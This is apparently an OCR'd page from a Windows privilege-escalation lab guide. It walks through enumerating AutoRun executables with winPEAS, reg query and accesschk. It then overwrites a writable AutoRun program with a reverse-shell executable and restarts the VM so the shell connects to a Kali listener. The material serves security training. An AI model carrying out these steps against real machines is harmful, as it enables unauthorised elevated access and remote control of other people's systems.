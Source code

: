 1.
Use winPEAS to check for writable AutoRun executables:
.\winPEASany.exe quiet applicationsinfo



2.
Alternatively, we could manually enumerate the AutoRun executables:

reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersio\Run
and then use 

accesschk.exe to verify the permissions on each one:


 .\accesschk.exe /accepteula -wvu "C:\Program
Files\Autorun Program\program.exe"


3.
The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by
Everyone. 

Create a backup of the original:

copy "C:\Program Files\Autorun Program\program.exe" C:\Temp

4.
Copy our reverse shell executable to overwrite the AutoRun executable:

copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun
Program\program.exe"


5.
Start a listener on Kali, and then restart the Windows VM to trigger the exploit. 

>Note that on
Windows 10, the exploit appears to run with the privileges of the last logged on user, so log
out of the “user” account and log in as the “admin” account first.